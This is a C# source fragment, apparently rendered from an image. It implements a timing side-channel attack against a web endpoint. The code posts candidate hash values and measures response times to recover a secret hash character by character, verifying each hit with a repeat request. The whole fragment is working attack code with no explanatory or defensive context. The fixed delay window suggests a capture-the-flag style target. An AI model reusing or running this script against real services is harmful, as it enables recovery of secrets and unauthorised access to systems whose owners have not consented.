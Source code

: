 ```csharp
        {
            Random rnd = new Random();
            string hash = string.Empty;
            using (var httpClient = new HttpClient())
                for (int i = 0; i < HashBytes; i++)
                {
                    var desiredTime = (i + 2) * 500;
                    var @break = false;
                    foreach (var x in PossibleValues.OrderBy(x => rnd.Next()))
                    {
                        var attempt = (hash + x).PadRight(HashBytes * 2, '0');
                        var content = new FormUrlEncodedContent(new[] { KeyValuePair.Create(HashParamName, attempt) });
                        var success = false;
                        while (!success)
                        {
                            try
                            {
                                var milliseconds = GetTiming(httpClient, content);
                                Console.WriteLine($"[*] {milliseconds} ms for {attempt}.");

                                if (milliseconds > desiredTime && milliseconds < (desiredTime + 99))
                                {
                                    Console.WriteLine($"[+] Found {x}, verifying!");
                                    milliseconds = GetTiming(httpClient, content);
                                    if (milliseconds > desiredTime && milliseconds < (desiredTime + 99))
                                    {
                                        Console.WriteLine($"[+] {x} has been double checked and is correct!");
                                        hash += x;
                                        @break = true;
                                    }
                                    else
                                        Console.WriteLine("[-] False positive! keep going.");

                                }
                                else if (milliseconds < (desiredTime - 500))
                                {
                                    Console.Error.WriteLine("Picked a wrong branch!");
                                    Environment.Exit(1);
                                }

                                success = true;
                            }
                            catch (Exception ex)
                            {
                                Console.WriteLine($"[-] Request failed. Retrying. {ex}");
                            }
                        }

                        if (@break) break;
                    }
                }
        }

        private static long GetTiming(HttpClient httpClient, FormUrlEncodedContent content)
        {
            var sw = Stopwatch.StartNew();
            httpClient.PostAsync(Url, content).Wait();
            sw.Stop();
            return sw.ElapsedMilliseconds;
```